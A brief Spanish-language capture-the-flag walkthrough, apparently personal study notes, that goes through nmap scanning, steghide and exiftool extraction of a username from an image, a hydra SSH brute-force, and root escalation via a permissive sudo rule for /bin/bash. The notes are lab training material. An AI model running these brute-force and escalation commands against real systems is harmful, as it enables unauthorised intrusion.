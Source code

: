 1. Realizamos un [[00. Apuntes/01. Herramientas/NMAP|NMAP]] hacia la IP objetivo:
`nmap -p- -sS -sCV --min-rate 5000 -n -vvv -Pn <IP> -oN <NombreFichero>

2.  Nos muestra el puerto 22 (SSH) y 80 (HTTP) abiertos, navegamos a la web:
![[Pasted image 20241117175040.png]]

3. Descargamos la imagen:
4. Utilizamos métodos de esteganografía (steghide):
`steghide extract -sf <nombre imagen descargada>`
- Al no tener passphrase le damos a `ENTER` y nos descarga un archivo llamado `secreto.txt`
- Vemos el contenido del fichero `cat secreto.txt`

5. No nos muestra información relevante así que buscaremos por los metadatos (exiftool):
`exiftool <imagen>`
- Se nos muestra que hay un usuario guardado

6. Atacamos al puerto 22 (SSH) por fuerza bruta [[HYDRA]]:
`hydra -l <usuario> -P <wordlist>  ssh://<IP>`
- Encontramos la contraseñas

7. Accedemos por SSH:
`ssh usuario@IP`

8. Escalada de privilegios:
`sudo -l`
- Vemos que podemos usar el comando `/bin/bash` como root
- Usamos `sudo -u root /bin/bash` y tendríamos privilegios de administrador root